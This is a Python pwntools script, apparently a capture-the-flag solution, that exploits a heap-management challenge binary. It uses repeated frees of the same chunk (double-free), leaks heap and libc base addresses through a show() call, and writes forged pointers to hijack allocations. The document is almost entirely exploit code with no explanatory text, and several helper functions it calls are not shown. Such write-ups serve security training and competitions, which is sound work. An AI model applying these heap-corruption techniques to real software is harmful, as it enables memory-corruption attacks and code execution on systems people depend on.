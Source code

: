 ```python
p.recvline()
addr = int(p.recvline()[:-1],16)


for i in range(7):
    add(0xf0)
    delete(0)
add(0xf0)#0

add(0xf0)#1

add(0x80)#2

delete(0)
delete(1)

z('b*$rebase(0x1608)')
add(0x100)#0

add(0xe0)#1

delete(1)
add(0x100)#1

delete(2)
add(0x90)#2


delete(0)
edit(0,'aaaa')
delete(0)
show(0)
p.recvuntil('see\n')
heap_base = leak_address()-0x2a0-0x700

edit(0,'aaaa')
delete(0)
edit(0,'aaaa')
delete(0)
edit(0,'aaaa')
delete(0)
edit(0,'aaaa')
delete(0)
edit(0,'aaaa')
delete(0)
edit(0,'aaaa')

delete(1)
show(1)
p.recvuntil('see\n')
libc_base = leak_address()-0x1ebbe0
print(hex(heap_base),hex(libc_base))
delete(0)
gift2()
cho(5)
sl(p64(heap_base+0xc20)+p64(addr-0x10))

delete(2)
add(0x100)#2
edit(2,p64(libc_base+0x1ebce0))
print(hex(addr))

gift1(2)
```